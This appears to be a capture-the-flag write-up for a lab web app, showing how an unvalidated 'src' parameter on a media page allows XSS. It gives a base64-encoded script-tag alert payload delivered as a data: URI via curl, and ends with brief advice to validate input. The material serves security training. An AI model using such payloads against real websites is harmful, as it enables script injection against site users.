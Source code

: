 # XSS Media Tag

In the home page there's only one image with a link. If you click this link you'll be redirected to the media page. The media page url accepts a src parameter that isn't validated by the server.

## Table of Contents

- [Steps](#Steps)
- [Vulnerabilities](#Vulnerabilities)
- [Ways to secure](#Ways to secure)

### Steps

Go to the <a href="http://192.168.56.102/?page=media">media page</a>.

Open terminal

Run
```bash
        cd ./Resources
        
	py base64Encode.py "<script>alert('Game Over');</script>"
	#Above will output "Encoded value of str <script>alert('Game Over');</script> -> PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" 
```

Now that we have our malicious content encrypted we can send it

Run
```bash
	curl "http://192.168.56.102/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" | grep "flag"
```

##### Ways to secure
The best way to handle this is to validate and sanitize client input.
Fetch images from their src directory.

